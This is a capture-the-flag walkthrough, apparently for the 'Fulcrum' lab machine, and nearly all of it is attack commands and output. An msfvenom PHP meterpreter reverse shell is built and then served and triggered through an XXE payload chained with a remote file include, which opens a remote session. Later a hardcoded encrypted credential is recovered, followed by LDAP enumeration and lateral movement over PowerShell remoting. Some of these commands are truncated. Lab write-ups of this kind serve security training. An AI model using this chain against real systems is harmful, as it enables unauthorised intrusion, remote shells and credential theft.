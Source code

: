First, lets create a reverse shell php from msfvenom for a sweet meterpreter

```
msfvenom -p php/meterpreter/reverse_tcp  LHOST=10.10.14.99 LPORT=4442 > dotashell.php
```

Start a listner in msfconsole
```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.10.14.99 
set LPORT 4442
run
```

Start a SimpleHTTP server where dotashell.php is stored
```
python -m SimpleHTTPServer 80
```

Create a new xml.txt
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.99/dotashell">
]>
<r>&sp;</r>
```

Exec Payload
```
curl -d @xml.txt http://10.10.10.62:56423

10.10.10.62 - - [13/Dec/2017 03:26:08] "GET /dotashell.php HTTP/1.0" 200 -

[*] Meterpreter session 1 opened (10.10.14.99:4442 -> 10.10.10.62:36316) at 2017-12-13 03:26:08 -0500
meterpreter > 
```

We see a ps1 file in the machine O.o
```
meterpreter > cat Fulcrum_Upload_to_Corp.ps1
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command